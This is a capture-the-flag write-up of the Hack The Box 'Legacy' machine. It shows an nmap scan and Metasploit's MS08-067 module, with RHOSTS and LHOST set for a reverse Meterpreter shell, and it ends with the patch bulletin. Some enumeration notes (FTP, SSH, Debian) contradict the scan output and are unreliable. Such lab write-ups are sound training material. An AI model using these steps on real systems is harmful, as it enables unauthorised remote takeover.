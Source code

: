 ![logo](/logo.png)

# [LEGACY- BOX]  
Hi folks, today I am going to solve an Easy rated hack the box machine which was reeleased on 15 Mar 2017 as the second machine on HTB,Legacy created by ch4p.So without any further intro, let'sf jump in.

# common enumeration

## Nmap
  *Ftp and ssh
  *Samba
  *Unix Debian
  
###### code-nmap

```sh
nmap -sV -sC -oA nmap/legacy 10.10.10.4
```

###### output

![nmaplegacy](/Windows/Windows-Easy/Legacy/Screenshots/nmaplegacy.png)

```code
❯ nmap -sV -sC -oA nmap/legacy 10.10.10.4                                                                                           ─╯
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-04 09:17 EAT
Nmap scan report for 10.10.10.4
Host is up (0.33s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows XP microsoft-ds
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b0:da:f6 (VMware)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2024-08-09T11:15:50+03:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
|_clock-skew: mean: 5d00h27m41s, deviation: 2h07m15s, median: 4d22h57m42s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.78 seconds

```

looking at the results we find that they are 3 ports open which is an SMB port its a `windows XP` machine.

port[135]-msrpc
port[139]-netbios-ssn
port[445]-microsoft-ds 


# Exploitation

Some [searching](https://support.microsoft.com/en-us/topic/ms08-067-vulnerability-in-server-service-could-allow-remote-code-execution-ac7878fc-be69-7143-472d-2507a179cd15) turns up with [CVE-2008-4250](https://nvd.nist.gov/vuln/detail/cve-2008-4250). Before diving into the details of my exploit, let’s unpack his vulnerability is a significant security flaw in Microsoft Windows operating systems, particularly affecting the Server service that manages file and printer sharing. The core issue lies in how Windows handles network services, allowing an attacker to send specially crafted network packets to execute arbitrary code remotely. In simpler terms, this vulnerability could enable an attacker to take control of a system without the user’s knowledge, which also has a `Metasploit` module available for it. 

We the launch metasploit console 

###### code 

```sh
msfconsole
```

Then we select the `exploit/windows/smb/ms08_067_netapi` and select relevant parameters;

###### code

 ```sh
search ms08_067_netapi
```

If so, Windows XP SP3 English is the correct target.

###### output

![metasploitlegacy](/Windows/Windows-Easy/Legacy/Screenshots/metasploitlegacy.png)

###### code

```sh
use 8
options
set RHOSTS 10.10.10.4
set LHOST 10.10.14.4
run
```

###### output

![metasploitoption](/Windows/Windows-Easy/Legacy/Screenshots/metasploitoption.png)

Running the module immediately grants a root shell. 

![metasploitoption](/Windows/Windows-Easy/Legacy/Screenshots/meterpreterlegacy.png)

###### code

```sh
shell
```

![](/Windows/Windows-Easy/Legacy/Screenshots/shelllegacy.png)

The user flag can be obtained from `C:\Documents and Settings\john\Desktop\user.txt` and the
root flag from `C:\Documents and Settings\Administrator\Desktop\root.txt`
###### output

![](/Windows/Windows-Easy/Legacy/Screenshots/legacyrootuserflag.png)


# The Mitigation: MS08–067

The adventure wouldn’t be complete without discussing the mitigation of this vulnerability. Microsoft released a security update, MS08–067, to patch this critical flaw. This update was crucial for Windows 2000, XP, Vista, and Windows Server 2003 and 2008 users, addressing the vulnerable component in the Server service to prevent such remote exploits. [Bulletin](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2008/ms08-067)

![](/Windows/Windows-Easy/Legacy/Screenshots/learnlegacy.png)

	-------------------------END successful attack @lesley----------------------


